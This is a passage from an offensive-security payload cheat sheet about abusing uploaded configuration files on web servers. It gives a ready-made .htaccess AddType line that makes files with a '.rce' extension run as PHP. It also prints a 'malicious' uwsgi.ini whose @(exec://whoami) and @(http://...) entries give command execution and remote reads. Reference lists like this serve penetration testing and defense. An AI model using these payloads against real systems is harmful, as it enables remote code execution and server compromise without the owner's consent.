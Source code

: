 - [Apache: .htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [IIS: web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [Python: \_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
- [WSGI: uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)


#### Apache: .htaccess

The `AddType` directive in an `.htaccess` file is used to specify the MIME (Multipurpose Internet Mail Extensions) type for different file extensions on an Apache HTTP Server. This directive helps the server understand how to handle different types of files and what content type to associate with them when serving them to clients (such as web browsers).  

Here is the basic syntax of the AddType directive: 

```ps1
AddType mime-type extension [extension ...]
```

Exploit `AddType` directive by uploading an .htaccess file with the following content. 

```ps1
AddType application/x-httpd-php .rce
```

Then upload any file with `.rce` extension.


#### WSGI: uwsgi.ini

uWSGI configuration files can include “magic” variables, placeholders and operators defined with a precise syntax. The ‘@’ operator in particular is used in the form of @(filename) to include the contents of a file. Many uWSGI schemes are supported, including “exec” - useful to read from a process’s standard output. These operators can be weaponized for Remote Command Execution or Arbitrary File Write/Read when a .ini configuration file is parsed:

Example of a malicious `uwsgi.ini` file:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
